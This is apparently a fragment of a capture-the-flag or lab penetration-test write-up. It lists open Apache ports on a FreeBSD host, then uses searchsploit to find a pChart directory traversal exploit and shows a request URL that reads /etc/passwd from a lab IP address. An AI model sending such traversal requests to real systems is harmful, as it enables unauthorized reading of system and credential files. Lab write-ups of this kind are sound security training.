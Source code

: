 
### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

\newpage
## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
``` {.python .numberLines}
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd

```

![writeup.exploitation.steps.1.1](./screenshot04.png)  

![writeup.exploitation.steps.1.2](./screenshot05.png)  
